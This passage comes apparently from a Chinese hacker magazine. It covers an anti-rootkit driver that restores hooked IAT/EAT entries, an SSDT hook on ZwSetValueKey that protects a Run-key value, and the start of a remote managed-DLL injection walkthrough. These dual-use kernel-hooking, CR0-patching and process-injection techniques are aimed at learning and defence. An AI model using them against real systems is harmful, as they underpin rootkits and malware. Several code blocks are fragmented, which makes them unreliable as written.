Windows系统核心中的Rootkit，以及Antirootkit、Antivirus很多都Hook了IAT和EAT表，比如卡巴斯基、gmer等，同时它们又实现了恢复功能，比如IceSword、RootUnhooker等。本文我们就将实现这个功能，让我们对Antirootkit有进一步的了解。

IAT（Import Address Table，导入地址表）是一个存放我们所调用的module（模块）的函数地址表，如下面的伪代码所示。

驱动启动时，IAT中的F9220000地址会写入我们需要导入的模块的EAT（导出函数地址表）中的函数地址。我们接着来看EAT（导出函数地址表），如下的伪代码所示。

如果我们想Hook IAT的话，在内存中改变它们的值就可以了。如果我们更改IAT的值为我们的函数地址的话，一旦该模块的程序调用这个函数，就会跳转到Hook函数中。如果我们Hook模块的EAT的话，那么之后启动的模块的IAT中的引用值将会是Hook函数的地址。

那么我们如何恢复IAT和EAT Hook呢？只能从原始的PE文件内容上去搜索了，因为此时内存中的数据再也不可信了。

```c
// 我们的程序调用指令
F9123468: CALL F9200000
// 调用 NtOpenProcess
F9200000: JMP FAR DWORD PTR [F9220000]
// 间接跳转指令
// IAT
......
F9220000: 804A4D17
// 804A4D17 是 NtOpenProcess 的调用地址
```

```c
// EAT
804999C: 00014D28
8050000: 000A4D17
// A4D17 是 Ntoskrnl.exe 的 NtOpenProcess 的导出偏移地址，在文件中和内存中是相同的。
```

我们首先调用NtQuerySystemInformation函数获得所有模块的数据，之后对我们自己的模块rvri.sys进行恢复IAT和EAT。因为我们的模块的IAT的NtQuerySystemInformation函数地址可能已经被Hook了，那样就不能够准确列出所有的模块数据了。接下来我们就可以比较安全地调用NtQuerySystemInformation函数获得准确的模块数据了，最后开始恢复所有模块的IAT和EAT数据。

我们先看一下调用NtQuerySystemInformation获取模块地址的代码。

```c
// 调用获得数据长度
NtQuerySystemInformation(SystemModuleInformation, &Smi,
    sizeof(SYSTEM_MODULE_INFORMATION),
    &ByteNum);
Ptr = ExAllocatePool(PagedPool, ByteNum);
if(Ptr == NULL){ return; }

// 调用获取模块数据数组
if(STATUS_SUCCESS ==
   NtQuerySystemInformation(SystemModuleInformation, Ptr, ByteNum, 0)){
    // 获取模块数量
    DriverCount = *(Ptr);
    SmiPtr = (PSYSTEM_MODULE_INFORMATION)(Ptr + 1);
    for(Idx = 0; Idx < DriverCount; ++Idx){
        if(stricmp((&SmiPtr[Idx])->ImageName, ... ){
            ...
        }
    }
}
...
[idx])->ModuleNameOffset, "rvri.sys") != 0){
    // 循环恢复每一个模块
    Rvr(&SmiPtr[idx], FALSE);
}
...
FreePool(Ptr);
```

我们的主核心函数是Rvr(SYSTEM_MODULE_INFORMATION* SmiPtr, BOOLEAN FirstTurn)。它搜索模块内存中的IAT和EAT数据，同时读取模块文件中的数据进行比对，如果不同就对其进行恢复。这个函数代码比较长，我们对其分段进行分析。首先是恢复IAT的代码。

```c
// 获取内存中的IAT位置
FirstThunk = GetDirectoryAddr(RvrFile->Base,
IMAGE_DIRECTORY_ENTRY_IAT,
&ImpFuncAddrItemSize, &DeltaIAT, FALSE);
// 获取文件中的 IMP table 位置
ImportDesc = GetDirectoryAddr(RvrFile->FileData,
IMAGE_DIRECTORY_ENTRY_IMPORT, &ImpTableSize,
&DeltaIMP, TRUE);
if(!FirstThunk || !ImportDesc) return;
// 数据必须是4字节对齐的
if(ImpFuncAddrItemSize % 4) {
    DbgPrint("Invalid ImpFuncAddrItemSize, exit\n");
    return;
}
```

在文件还没有被读入内存时，IAT中的数据还不是函数的地址，它是一个指向和IMPORT表相同的函数名称，所以我们只能读取IMPORT表来获得数据。文件和内存之间的数据位置可能有相差，所以我们同时要计算一下相差值DeltaIMP。

我们再来看一下GetDirectoryAddr函数是如何定位到各个表的位置的，实现代码如下：

```c
VOID * GetDirectoryAddr(UCHAR *Base, USHORT DirectoryIdx, ULONG * pSize, INT * Delta, BOOLEAN IsFile)
{
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNTHeader;
    VOID *pDirAddr;
    PIMAGE_SECTION_HEADER Header;

    pDosHeader = (PIMAGE_DOS_HEADER)Base;
    // 调用 MmIsAddressValid 检测是否地址可访问
    if (!MmIsAddressValid(pDosHeader))
        return NULL;
    // 检测是否为 PE 文件头
    ...
}
```

```c
if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    return NULL;
// 偏移获得 NT 文件头
pNTHeader = MakePtr(PIMAGE_NT_HEADERS,
    pDosHeader, pDosHeader->e_lfanew);
if (!MmIsAddressValid(pNTHeader))
    return NULL;
// 检测是否为 NT 文件头
if (pNTHeader->Signature != IMAGE_NT_SIGNATURE)
    return NULL;

if(IsFile){
    // 如果是文件数据的话，需要调用 GetEnclosingSectionHeader 获得准确的节表头
    Header = GetEnclosingSectionHeader(
        pNTHeader->OptionalHeader.
        DataDirectory[DirectoryIdx].
        VirtualAddress, pNTHeader);
    if(Header == NULL) return NULL;
    // 计算RVA值
    *Delta = (INT)(Header->VirtualAddress - Header->PointerToRawData);
}else{
    *Delta = 0;
}

// 获取表的位置
pDirAddr = MakePtr(PVOID, pDosHeader,
    pNTHeader->OptionalHeader.
    DataDirectory[DirectoryIdx].
    VirtualAddress - *Delta);
if (pDirAddr == (VOID*)pNTHeader)
    return NULL;

// 获取数据长度
if(pSize){
    *pSize = MakePtr(ULONG, pDosHeader,
        pNTHeader->OptionalHeader.
        DataDirectory[DirectoryIdx].
        Size);
    if(pSize)
        *pSize -= (ULONG)pDosHeader;
}
return pDirAddr;
}
```

在获取了表的位置后，我们就要开始比对了。内存IAT表中包含了一连串模块的导入函数地址，如表1所示。而文件IMPORT表中包含了一连串模块导入函数名称，如表2所示。看出它们的区别了吗？它们的顺序并不一样，我们需要重新排列一下Import表的模块，使之和IAT表中一样。因为数量比较少，所以冒泡（bubble）排序最适合。我们来看一下实现代码。

| 模块/标志 | 值 |
|---|---|
| Hal.dll | 806012313 |
|  | 806102424 |
|  | 806100232 |
| 结束标志 | 0 |
| Ntoskrnl.exe | 804012313 |
|  | 804102424 |
|  | 804100232 |
| Tcpip.sys | F9000020 |
| 结束标志 | 0 |

表1

| 模块 | 函数 |
|---|---|
| Ntoskrnl.exe | NtOpenProcess |
|  | NtTerminateProcess |
|  | ZwClose |
| Hal.dll | READ_PORT_BUFFER_UCHAR |
|  | READ_REGISTER_BUFFER_UCHAR |
|  | READ_REGISTER_UCHAR |
| Tcpip.sys | IPAllocBuf |

表2

```c
// 获取文件中的各个模块的位置作为排序依据
while(ImportDesc->Name){
    ImportDescAry[ImpDescIdx] = ImportDesc;
    SortOdrAry[ImpDescIdx] = (ULONG)MakePtr(PIMAGE_THUNK_DATA, RvrFile->FileData, ImportDesc->FirstThunk - DeltaIMP);
    ImpDescIdx++;
    ImportDesc++;
}
// 如果没有导入模块，直接去处理EAT
if(ImpDescIdx == 0) goto DO_RVR_EAT; // 排序
if(ImpDescIdx != 1){
    j = ImpDescIdx;  // bubble sort
    while(TRUE){
        for(i = 1; i < j; ++i){
            if(SortOdrAry[i] < SortOdrAry[i - 1]){
                ImportDesc = ImportDescAry[i - 1];
                ImportDescAry[i - 1] = ImportDescAry[i];
                ImportDescAry[i] = ImportDesc;
                tmp = SortOdrAry[i - 1];
                SortOdrAry[i - 1] = SortOdrAry[i];
                SortOdrAry[i] = tmp;
            }
        }
        j--;
        if(j == 1) break;
    }
}
```

排序好之后，我们就可以进行比对了。

```c
// 获取模块名，用于读入模块文件获取EAT
ModuleName = MakePtr(PSTR, RvrFile->FileData, ImportDesc->Name - DeltaIMP);

// 获取函数名位置指针
OriFirstThunk = MakePtr(PIMAGE_THUNK_DATA, RvrFile->FileData, ImportDesc->OriginalFirstThunk - DeltaIMP);

// 循环遍历每一个函数地址
while(OriFirstThunk && ModuleName && ImpFuncAddrItemSize && FirstThunk->u1.Function){
    // 获取函数名
    OrdinalName = MakePtr(PIMAGE_IMPORT_BY_NAME, RvrFile->FileData, (ULONG)OriFirstThunk->u1.AddressOfData - DeltaIMP);

    // 从模块文件中获取准确的函数地址
    if(GetAddrOfExportFuncAddr(ModFile->FileData, OrdinalName->Name, &ExportFunctionAddr, TRUE)){
    } else {
        DbgPrint("We can not get %s export address\n", OrdinalName->Name);
    }

    if((ULONG)FirstThunk->u1.Function != ExportFunctionAddr + (ULONG)ModFile->Base){
        CHAR *Forwarder;
        // 如果不相等，我们再比对是否为转移函数名。
        FileExpDesc = GetDirectoryAddr(ModFile->FileData, IMAGE_DIRECTORY_ENTRY_EXPORT, &FileExpTableSize, &FileDeltaExp, TRUE);
        Forwarder = ModFile->FileData + ExportFunctionAddr - FileDeltaExp;
        if(Forwarder >= (CHAR*)FileExpDesc && Forwarder <= (CHAR*)FileExpDesc + FileExpTableSize){
            DbgPrint("%s\n", Forwarder);
        } else {
            // 如果不是转移函数，那肯定是被hook了，显示hook地址
            HookFile = FindFileDataInListWithAddress((CHAR*)FirstThunk->u1.Function);
            if(HookFile){
                DbgPrint("IAT Hook %s: %x -> %x -> %s", OrdinalName->Name,
                    ExportFunctionAddr + (ULONG)ModFile->Base,
                    (ULONG)FirstThunk->u1.Function, HookFile->ModName);
            } else {
                DbgPrint("IAT Hook %s: %x -> %x -> UnKnown Module", OrdinalName->Name,
                    ExportFunctionAddr + (ULONG)ModFile->Base,
                    (ULONG)FirstThunk->u1.Function);
            }
        }
    }
}
```

```c
{
    HookedAddress = (ULONG)&FirstThunk->u1.Function;
    RvrAddress = ExportFunctionAddr + (ULONG)ModFile->Base;

    // 其实我们应该在这里获取一个SpinLock，不应该仅仅提高执行优先权，这样程序就健壮了
    KeRaiseIrql(2, &OldIrql);

    // 修改CR0上的只读权限
    __asm{
        push eax
        mov eax, cr0
        and eax, 0xFFFEFFFF
        mov cr0, eax
        pop eax
    }

    // 恢复地址
    INTERLOCKED_EXCHANGE(HookedAddress, RvrAddress);

    // 恢复为只读权限
    __asm{
        push eax
        mov eax, cr0
        or eax, 0x10000
        mov cr0, eax
        pop eax
    }

    // 还原原本架构的优先权
    KeLowerIrql(OldIrql);
}

//DbgPrint("%x  %s", FirstThunk->u1.Function, OrdinalName->Name);
// 更新到下一个函数地址和下一个函数名地址
FirstThunk++;
ImpFuncAddrItemSize -= sizeof(ULONG);
OriFirstThunk++;

// 如果IAT表已经遍历完成，退出循环
if(ImpFuncAddrItemSize == 0) break;

// 这里我们需要检查是否到达了这个模块的终点。如果是0就是到达了终点
if(FirstThunk->u1.Function == 0)
{
    // 更新到下一个模块的开始（如果还有模块没有遍历）
    FirstThunk++;
    ImpFuncAddrItemSize -= sizeof(ULONG);

    // 更新到下一个IMPORT模块
    ImportDesc = ImportDescAry[ImpDescIdx];
    if(ImpDescIdx == ImpDescNum) break;
    ++ImpDescIdx;
    ModuleName = MakePtr(PSTR, RvrFile->FileData,
        ImportDesc->Name - DeltaIMP);
    OriFirstThunk = MakePtr(PIMAGE_THUNK_DATA, RvrFile->FileData,
        ImportDesc->OriginalFirstThunk - DeltaIMP);
    if(OriFirstThunk == NULL ||
       ModuleName == NULL ||
       FirstThunk->u1.Function == NULL ||
       ImpFuncAddrItemSize == 0) break;
    DbgPrint("Import Module -- %s\n", ModuleName);

    // 读取下一个模块的文件数据，如果没有在我们的文件数据链上找到的话
    ModFile = FindFileDataInListWithModName(ModuleName);
    if(ModFile == NULL){
        ModFile = CreateFileData(NULL, ModuleName);
        if(ModFile == NULL){
            DbgPrint("We can not get module %s information\n", ModuleName);
            return;
        }
    }

    if(ModFile->FileData == NULL){
        DbgPrint("We can not open module file %s\n", ModFile->FileName);
        return;
    }
}
```

上面的程序代码还是比较清晰的，在获得函数名和模块名后，读入模块文件数据，从模块文件数据的EAT（导出函数表）中获取该函数的偏移值，然后将其值加上模块在内存中的起始地址，再将这个值同内存IAT表中的函数地址进行比较。如果不相等的话，就只有两种可能：一种是文件中读到的这个偏移值指向一个转移函数的模块名（如Ntoskrnl.RtlMoveMemory）；另一种可能就是被Hook了，我们就列出被Hook的函数，再将其地址恢复。我们来看一看GetAddrOfExportFuncAddr函数的代码，看看如何从文件中获取EAT表中的函数偏移值。

```c
BOOLEAN GetAddrOfExportFuncAddr(
    UCHAR* Base,
    CHAR* FunctionName,
    ULONG* AddrOfExportFuncAddr, BOOLEAN IsFile)
{
    PIMAGE_EXPORT_DIRECTORY pExportDesc;
    ULONG *pFuncName, *pFuncAddr, *pTmpFuncName;
```

```c
ULONG i, j;
INT Delta;
PSHORT pOrdinal;
// 获取EAT表的位置
pExportDesc = (PIMAGE_EXPORT_DIRECTORY)
    GetDirectoryAddr(Base, IMAGE_DIRECTORY_ENTRY_EXPORT, NULL, &Delta, IsFile);
if (!pExportDesc) return FALSE;
// 获取EAT表的3个变量的RVA值
pFuncName = MakePtr(PULONG, Base, pExportDesc->AddressOfNames - Delta);
pFuncAddr = MakePtr(PULONG, Base, pExportDesc->AddressOfFunctions - Delta);
pOrdinal = MakePtr(PSHORT, Base, pExportDesc->AddressOfNameOrdinals - Delta);
// 循环寻找相同函数名，找到后走相同位置获取函数地址的编号Ordinal
for (j = 0; j < pExportDesc->NumberOfNames; j++, pFuncName++) {
    if (_stricmp(FunctionName, (CHAR*)Base + *pFuncName - Delta) == 0) {
        *AddrOfExportFuncAddr = *(pFuncAddr + pOrdinal[j]);
        return TRUE;
    }
}
return FALSE;
```

代码已经注释得比较详细了，我就不再解释了。至此，IAT恢复就结束了，我们继续EAT恢复。看了上面 GetAddrOfExportFuncAddr 函数的代码后，大家应该知道EAT恢复的思路了吧？首先获取内存中的EAT表，再获取文件中的EAT表，然后进行比对，我们来看一下代码实现。

```c
DO_RVR_EAT:
// 获取内存中和文件中的EAT表的位置
ModExpDesc =
    GetDirectoryAddr(RvrFile->Base,
                     IMAGE_DIRECTORY_ENTRY_EXPORT,
                     &ModExpTableSize,
                     &ModDeltaExp,
                     FALSE);
FileExpDesc =
    GetDirectoryAddr(RvrFile->FileData,
                     IMAGE_DIRECTORY_ENTRY_EXPORT,
                     &FileExpTableSize,
                     &FileDeltaExp,
                     TRUE);
// 如果文件中不存在EAT表则返回
if (!FileExpDesc || FileExpTableSize == 0) {
    DbgPrint("No Export Table existing\n");
    return;
}
// 如果文件中存在EAT表，而内存中不存在，则只有可能内存中的数据已经被修改了
if (!ModExpDesc || ModExpTableSize == 0 || FileExpDesc->AddressOfFunctions != ModExpDesc->AddressOfFunctions) {
    DbgPrint("%s export table is corrupt\n", RvrFile->ModName);
    return;
}
// 获取内存中和文件中的函数地址表位置
FileExpFuncAddr = MakePtr(PULONG, RvrFile->FileData, FileExpDesc->AddressOfFunctions - FileDeltaExp);
ModExpFuncAddr = MakePtr(PULONG, RvrFile->Base, ModExpDesc->AddressOfFunctions - ModDeltaExp);
FileExpFuncName = MakePtr(PULONG, RvrFile->FileData, FileExpDesc->AddressOfNames - FileDeltaExp);
FileOrdinal = MakePtr(PSHORT, RvrFile->FileData, FileExpDesc->AddressOfNameOrdinals - FileDeltaExp);
// 循环遍历函数地址
for (j = 0;
     j < FileExpDesc->NumberOfFunctions;
     j++, ModExpFuncAddr++, FileExpFuncAddr++) {

    // 对函数地址进行比较。如果不同则只有一种可能，被hook了，不像IAT有两种可能
    if (*FileExpFuncAddr != *ModExpFuncAddr) {
        ExpFuncName = NULL;
        for (i = 0; i < FileExpDesc->NumberOfNames; ++i) {
            if (j == FileOrdinal[i]) {
                ExpFuncName =
                    RvrFile->FileData + *(FileExpFuncName + i) - FileDeltaExp;
                break;
            }
        }

        if (ExpFuncName == NULL) {
            DbgPrint("We can not find function name\n");
        }
        HookFile = FindFileDataInListWithAddress((CHAR*)*ModExpFuncAddr + (ULONG)RvrFile->Base);

        // 列出hook函数
        if (HookFile) {
            DbgPrint("EAT Hook %s: %x -> %x -> %s",
                     ExpFuncName ? ExpFuncName : "UnKnown Function Name",
                     *FileExpFuncAddr + (ULONG)RvrFile->Base, ...);
        }
    }
}
```

#### PROGRAMMING ANALYSE

```c
*ModExpFuncAddr + (ULONG)RvrFile->Base);
} else {
    DbgPrint("EAT Hook %s: %x -> %x -> UnKnown Module",
             ExpFuncName ? ExpFuncName : "UnKnown Function Name",
             *FileExpFuncAddr + (ULONG)RvrFile->Base,
             *ModExpFuncAddr + (ULONG)RvrFile->Base);
}

// 恢复EAT函数地址
HookedAddress = (ULONG)ModExpFuncAddr;
RvrAddress = *FileExpFuncAddr;
KeRaiseIrql(2, &OldIrql);
__asm {
    push eax
    mov eax, cr0
    and eax, 0xFFFEFFFF
    mov cr0, eax
    pop eax
}
INTERLOCKED_EXCHANGE(HookedAddress, RvrAddress);
__asm {
    push eax
    mov eax, cr0
    or eax, 0x10000
    mov cr0, eax
    pop eax
}
KeLowerIrql(OldIrql);
```

```c
EAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module
// 所有NDIS相关的模块都被hook了TdiRegisterDeviceObject函数

tcpip.sys: IAT Size: 354 IMP Size: 64
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
IAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module

netbt.sys: IAT Size: 26c IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
IAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module

afd.sys: IAT Size: 264 IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module

netbios.sys: IAT Size: 104 IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
// 略去很多被hook IoCreateDevice和TdiRegisterDeviceObject的模块

CLASSPNP.SYS: IAT Size: 180 IMP Size: 3c
Import Module Number: 2
Import Module --- ntoskrnl.exe
IAT Hook IofCompleteRequest: 804de90 -> f73b8f76 -> gmer.sys
Import Module --- HAL.dll
```

这样，EAT恢复就算完成了，现在我们来测试一下，看看效果。下面是我们的驱动 rvrie.sys 在 DbgView 中的显示结果。

```c
// 我们自己的驱动首先检查，被HOOK了IoCreateDevice
rvrie.sys: IAT Size: 50 IMP Size: 3c
Import Module Number: 2
Import Module --- HAL.dll
Import Module --- ntoskrnl.exe
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
00000012 0.17285493 No Export Table existing

ntkrnlpa.exe: IAT Size: 154 IMP Size: 50
EAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
TDISYS: IAT Size: e4 IMP Size: 50 ...
```

从驱动的显示数据中可以看出，有一个驱动在内存 81578bb0、81578c60 处写入了 hook 函数代码，并且 hook 了 ntkrnlpa 模块 EAT 表中的 IoCreateDevice 函数和 tdi.sys 模块 EAT 表中 TdiRegisterDeviceObject 函数，而且这个驱动启动得比较早，造成了很多模块的 IAT 表中导入了 hook 的函数地址，这其中也包括了我们自己的 rvrie.sys 驱动模块。也就是说，我们的驱动之前调用了被 hook 的 IoCreateDevice 函数，这应该是卡巴斯基 hook 的吧？另一处比较显眼的就是 gmer 这个 Antirootkit 软件 hook 了 classpnp.sys 模块的 IAT 表中的 IofCompleteRequest 函数，这样所有发向磁盘的 IRP 完成数据都将先被 gmer 监控到。但是，现在有了我们上面的程序，当再次启动我们的 rvrie.sys 驱动后，就会发现 IAT 和 EAT hook 都已经恢复正常了。

前置知识：VC  
关键词：Ring0、SSDT、注册表

## Ring0中hook SSDT
#### 实现注册表监控

文/图 感受生活


如今对于内核的研究真是如火如荼啊，随便翻开《黑客防线》的一篇编程解析的文章就是讲内核的，看来自真地代表了一个趋势。这次我也想跟大家说说关于内核态注册表防修改、删除的问题，还是有关 SSDT 的，希望能对大家有所帮助。

#### 原理

注册表一直是木马和杀毒软件的一个“兵家必争”之地，木马病毒为了实现自启动一定会在注册表上下功夫，而杀毒软件为了实现自我保护，同时也是为了更好地实现对用户系统的保护，也一定会修改注册表来达到自己的目的。

在 Win32 API 中，我们使用 RegSetValue 和 RegSetValueEx 这两个函数来修改注册表中的键值，它们在内核中都对应 ZwSetValueKey，因此，如果 ZwSetValueKey 的行为被改变，RegSetValue 和 RegSetValueEx 这两个函数的行为也会跟着改变。我们这里就是通过修改 ZwSetValueKey 的行为，来达到注册表指定键值无法修改的目的，其他的像防删除等原理与此相似，就不赘述了。

因为 ZwSetValueKey 是 Native API，驱动是肯定需要的，而且 SSDT 大家应该都了解得差不多了，所以这里只简单地说一点，马上进入正题。SSDT 是一个内核表，作用就是把 Ring3 的 Win32 API 和 Ring0 的 Native API 联系起来。Hook SSDT 就是通过替换 SSDT 中的内核函数索引地址，使得当 Native API 被调用时，能够执行我们的代码，达到所希望的目的。

通过挂钩 ZwSetValueKey 函数，当调用该函数时就会执行驱动中的代码。我们首先将键值储存起来，因为在 Win32 API 中，管理内核对象是通过 Handle 实现的，而在内核内部是通过 Object 来管理内核对象的。下面是 Object 的属性结构：

```c
typedef struct _OBJECT_ATTRIBUTES
{
    ULONG Length; // 结构长度
    HANDLE RootDirectory; // 根目录
    UNICODE_STRING *ObjectName; // Object的名称
    ULONG Attributes; // 属性
    PSECURITY_DESCRIPTOR SecurityDescriptor; // 安全描述符
    PSECURITY_QUALITY_OF_SERVICE SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;
```

我们感兴趣的是 ObjectName 成员，因为它包含了注册表名。回到问题上，我们拦截 ZwSetValueKey 后，获得的是操作注册表键的 Handle，因此需要获得对应 Object 的内存地址，这就需要调用内核例程 ObReferenceObjectByHandle 来得到 Handle 所对应的 Object 的内存地址。得到 Object 的内存地址后，原则上可以直接取得 ObjectName，但 OBJECT_ATTRIBUTES 是个公开结构，为了跨越不同的版本，我们使用一个未公开的内核例程 ObQueryNameString，便可以获得 ObjectName 了。

#### 具体实现

首先向大家详细介绍几个我们需要的关键内核函数，第一个就是 ObReferenceObjectByHandle，DDK 中对该函数的原型和解释如下：

```c
NTSTATUS ObReferenceObjectByHandle(
  IN HANDLE Handle,
  IN ACCESS_MASK DesiredAccess,
  IN POBJECT_TYPE ObjectType OPTIONAL,
  IN KPROCESSOR_MODE AccessMode,
  OUT PVOID *Object,
  OUT POBJECT_HANDLE_INFORMATION HandleInformation OPTIONAL
);
```

另一个关键的内核函数是 ObQueryNameString，该函数在 DDK 中没有文档说明，是一个通用函数，可以用于文件、注册表等类型的句柄，是一个功能十分强大的函数。但这个函数在有些环境下会有问题，在某些情况下会导致系统挂起，或者直接 BSOD。这里采用了 RegMon 中的方法，在 Windows XP SP2 环境下调试没有出现问题。据说在 Windows 2000 下会出现问题，甚至直接 BSOD，希望大家能找到一个有效的解决方法。

#### 代码介绍

通过调试工具 DEBUGVIEW 和冰刃可以看到程序效果，图1是程序运行后的效果图。从图中可以看到，我们的驱动程序已经挂钩了 ZwSetValueKey 这个 Native API，而且从 DEBUGVIEW 中也能看到，当试图在注册表的指定位置修改特定键值时，该驱动就会拦截操作，达到防止注册表键值被修改的目的。


在编写驱动时，首先还是替代函数，声明原有函数，定义一个原函数指针，以及定义 SSDT，这些都是千篇一律，就不详细解释了，大家可以参考《黑客防线》以前的文章，我只写出具体的实现代码。

```c
extern NTSYSAPI NTSTATUS NTAPI ZwSetValueKey(
  IN HANDLE KeyHandle,
  IN PUNICODE_STRING ValueName,
  IN ULONG TitleIndex OPTIONAL,
  IN ULONG Type,
  IN PVOID Data,
  IN ULONG DataSize
);

typedef NTSTATUS (*REALZWSETVALUEKEY)(
  IN HANDLE KeyHandle,
  IN PUNICODE_STRING ValueName,
  IN ULONG TitleIndex OPTIONAL,
  IN ULONG Type,
  IN PVOID Data,
  IN ULONG DataSize
);
REALZWSETVALUEKEY RealZwSetValueKey;

NTSTATUS HookZwSetValueKey(...)

typedef struct ServiceDescriptorEntry {
  unsigned int *ServiceTableBase;
  unsigned int *ServiceCounterTableBase;
  unsigned int NumberOfServices;
  unsigned char *ParamTableBase;
};
```

之后的 DriverEntry 和 Driver_Unload 函数基本相同，也不再赘述，下面给出替换函数的实现代码。

```c
NTSTATUS HookZwSetValueKey(
  IN HANDLE KeyHandle,
  IN PUNICODE_STRING ValueName,
  IN ULONG TitleIndex OPTIONAL,
  IN ULONG Type,
  IN PVOID Data,
  IN ULONG DataSize
)
```

```c
NTSTATUS rc;
UNICODE_STRING *pUniName;
// 定义得到修改注册表的 UNI 路径
ULONG actualLen;
ANSI_STRING keyname, akeyname, m_keyname;
// 定义得到修改注册表的 UNI 路径
PVOID pKey;
RtlUnicodeStringToAnsiString(&akeyname, ValueName, TRUE); // 得到文件对象的指针
if (pKey = GetPointer(KeyHandle))
{
    // 分配内存
    pUniName = ExAllocatePool(NonPagedPool, 512 * 2 + 2 * sizeof(ULONG));
    pUniName->MaximumLength = 512 * 2;
    // 保证空间内没有不干净的数据
    memset(pUniName, 0, pUniName->MaximumLength);
    if (NT_SUCCESS(ObQueryNameString(pKey, pUniName, 512 * 2, &actualLen)))
    {
        RtlUnicodeStringToAnsiString(&keyname, pUniName, TRUE);
        keyname.Buffer = _strupr(keyname.Buffer);
        akeyname.Buffer = _strupr(akeyname.Buffer);
        if (strcmp(keyname.Buffer, "\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN") == 0)
        {
            if (strcmp(akeyname.Buffer, "TESTEXE") == 0)
            {
                DbgPrint("试图修改键值:%s 的数据, 已被拦截", akeyname.Buffer);
                RtlFreeAnsiString(&akeyname);
                RtlFreeAnsiString(&keyname); // 释放内存
                if (pUniName)
                {
                    ExFreePool(pUniName);
                }
                return 0;
            }
        }
    }
    RtlFreeAnsiString(&akeyname);
    rc = RealZwSetValueKey(KeyHandle, ValueName, TitleIndex, Type, Data, DataSize); // 释放内存
    if (pUniName)
    {
        ExFreePool(pUniName);
    }
    return rc;
}
```

其中的 GetPointer 函数起到了由 Handle 值得到 Object 指针的作用。

以上就是通过 Hook SSDT 实现注册表监控的基本代码。由于水平有限，很多东西没有解决，比如没有解决 ObQueryNameString 函数在 Windows 2000 下会产生错误的问题。大家可以在本程序的基础上继续进行修改，以实现 Hook ZwDeleteKey 函数来防止键值被删除。

前置知识：VC  
关键词：编程、托管注入、DLL 注入

### 托管注入深入研究

文/ssyfzy（十三亿分之一的缩写）

本文的重点不在于介绍如何注入托管代码，而是侧重于介绍我的研究过程，这里面有很多曲折，可能会使大家感到烦闷，但正所谓“授人以鱼，不如授人以渔”，了解了这个过程，会让我们理解得更深刻。

我们先来看看 Win32 DLL 是如何注入的。通常有两种方法：钩子和远程线程。远程线程更灵活，所以本文主要讨论远程线程的方法。为了便于交流，先明确以下概念。

- 1）主程序：用于将 DLL 注入到其他进程的 EXE。
- 2）DLL：被注入其他进程的 DLL。
- 3）宿主：DLL 将被注入的其他程序。

#### 远程注入的基本步骤

主程序通过 CreateRemoteThread 函数迫使宿主调用 LoadLibrary 函数加载 DLL，从而执行 DLL 的入口函数 DllMain。只要我们把代码放到 DllMain 里，就可以被调用了。

现在再来看看托管 DLL 的注入。用 C# 或 VB.NET 编写的 DLL 没有 DllMain 函数。我们自然想到了功能强大的 C++。通常，我们把用 C# 或 VB.NET 写的 DLL，或者用 C++ 写的、但编译为“/clr:pure”的 DLL 称为托管 DLL；而把用 C++ 编写的、但编译为“/clr”的 DLL 称为混合 DLL。混合 DLL 也可以调用托管代码，所以也可以将其称为托管 DLL。本文所说的托管 DLL 注入，实际上是混合 DLL 的注入。

我们首先想到的是用常规方法来注入混合 DLL，结果会发现，只要在 DllMain 函数里调用了托管代码，程序就会崩溃。

也许你还会想到下面的方法：定义一个类，在其构造函数里调用托管代码，然后在全局域里定义这个类的一个变量。这样做了后，我们会发现，注入后，什么也没有执行。

查阅 MSDN，我们找到了答案：DllMain 不能直接或间接地调用托管代码，并且全局变量不会进行初始化。这样的结果让人非常沮丧！

难道真的就没有办法了吗？网友 CiCi 给出了一个解决方案：写一个混合 DLL，在其中定义一个导出函数，在这个导出函数里可以调用托管代码。然后写一个非托管 DLL（也就是 Win32 DLL），在其 DllMain 函数里调用混合 DLL 的导出函数。

这个方案能够解决问题，并且我在一段时间里也一直使用这个方法，但总觉得不完美：必须使用两个 DLL。有没有办法用一个 DLL 就能解决问题呢？答案是肯定的。

在一次偶然的机会中，我发现了一个现象：如果用钩子来实现注入，则全局变量会得到初始化。这个发现让我非常困惑，为什么远程线程注入就不会初始化呢？

考虑到这两种方法的区别：钩子注入时，宿主会调用 DLL 中的钩子回调函数。于是我大胆设想，只要宿主调用了 DLL 中的任意一个函数，全局变量就会得到初始化。我在 DLL 中定义了一个空实现的函数（因为我的目的是迫使全局变量初始化，而不是去执行这个函数），结果正如我所料，全局变量被初始化了，其构造函数中的托管代码被调用了！

这里其实已经实现了托管代码的注入，当然还远远不够完善。这时候我又觉得全局变量是多余的了，既然能够使宿主调用 DLL 中的一个特定函数，为什么不直接把托管代码放到这个函数中呢？我马上进行了测试，也成功了。

之前我是这样实现让宿主调用 DLL 中的一个特定函数的：在 DLL 被注入之后，在 DllMain 函数里将这个特定函数的地址写到共享内存中（这时 DllMain 里没有调用托管代码，所以可以执行），然后主程序读取共享内存中的值，再通过远程线程迫使宿主调用这个特定函数。

于是我又想，既然可以在主程序中用远程线程迫使宿主调用 DLL 中的特定函数，为什么不直接在 DLL 中用相同的方法去调用呢？这个想法我还没有来得及验证，马上又想到，DLL 跟宿主是一个进程，即使用远程线程，传给 CreateRemoteThread 函数的第一个参数也是“-1”（GetCurrentProcess() 返回 -1），为什么不直接用“近程”线程 CreateThread 呢？

需要着重强调的是，我当时用 CreateThread 的目的只是让它调用一个特定函数，而不是要去创建一个线程，虽然最终的确创建了一个线程，不过对于此目的，貌似只是一个副作用。我非常兴奋，马上进行了验证，成功了！

现在总结一下托管代码注入的过程：首先定义一个线程回调函数，可以在其中调用托管代码。

```cpp
